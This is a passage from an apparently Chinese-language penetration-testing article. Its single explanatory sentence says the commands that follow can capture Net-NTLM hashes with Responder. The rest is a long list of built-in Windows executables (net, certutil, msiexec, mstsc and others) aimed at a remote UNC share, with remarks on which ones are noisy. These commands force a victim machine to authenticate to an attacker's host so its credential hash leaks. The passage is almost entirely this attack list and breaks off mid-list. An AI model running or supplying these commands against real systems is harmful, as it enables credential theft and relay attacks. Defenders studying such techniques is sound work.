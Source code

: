 [![](assets/1701222524-6f01fe878bf2c50128aab577452ca10f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128140947-bb6831d2-8db4-1.png)  
我们使用以下命令也可以在responder中获取到Net-NTLM Hash值：

```plain
> net.exe use \hostshare 
> attrib.exe \hostshare  
> bcdboot.exe \hostshare  
> bdeunlock.exe \hostshare  
> cacls.exe \hostshare  
> certreq.exe \hostshare #(noisy, pops an error dialog) 
> certutil.exe \hostshare  
> cipher.exe \hostshare  
> ClipUp.exe -l \hostshare  
> cmdl32.exe \hostshare  
> cmstp.exe /s \hostshare  
> colorcpl.exe \hostshare #(noisy, pops an error dialog)  
> comp.exe /N=0 \hostshare \hostshare  
> compact.exe \hostshare  
> control.exe \hostshare  
> convertvhd.exe -source \hostshare -destination \hostshare  
> Defrag.exe \hostshare  
> diskperf.exe \hostshare  
> dispdiag.exe -out \hostshare  
> doskey.exe /MACROFILE=\hostshare  
> esentutl.exe /k \hostshare  
> expand.exe \hostshare  
> extrac32.exe \hostshare  
> FileHistory.exe \hostshare #(noisy, pops a gui)  
> findstr.exe * \hostshare  
> fontview.exe \hostshare #(noisy, pops an error dialog)  
> fvenotify.exe \hostshare #(noisy, pops an access denied error)  
> FXSCOVER.exe \hostshare #(noisy, pops GUI)  
> hwrcomp.exe -check \hostshare  
> hwrreg.exe \hostshare  
> icacls.exe \hostshare   
> licensingdiag.exe -cab \hostshare  
> lodctr.exe \hostshare  
> lpksetup.exe /p \hostshare /s  
> makecab.exe \hostshare  
> msiexec.exe /update \hostshare /quiet  
> msinfo32.exe \hostshare #(noisy, pops a "cannot open" dialog)  
> mspaint.exe \hostshare #(noisy, invalid path to png error)  
> msra.exe /openfile \hostshare #(noisy, error)  
> mstsc.exe \hostshare #(noisy, error)  
> netcfg.exe -l \hostshare -c p -i foo
```
